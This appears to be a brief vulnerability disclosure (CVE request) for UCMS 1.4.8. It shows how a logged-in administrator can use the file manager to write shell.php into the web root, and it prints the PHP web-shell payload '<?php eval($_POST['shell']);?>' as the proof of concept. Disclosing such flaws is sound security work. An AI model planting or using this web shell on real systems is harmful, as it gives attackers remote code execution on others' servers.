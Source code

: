
UCMS v1.4.8 getshell


Vulnerability Version :

1.4.8

Open the URL [http://127.0.0.1/login.php](http://127.0.0.1/login.php), Login to the background.

Open the URL [http://127.0.0.1/ucms/index.php?do=sadmin_file](http://127.0.0.1/ucms/index.php?do=sadmin_file)

Create a shell.php file to submit

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS.png)


![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS2.png)

Put the request just in the root directory


![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS3.png)

found the poc： (<?php eval($_POST['shell']);?>)

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS5.png)


getshell

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS4.png)

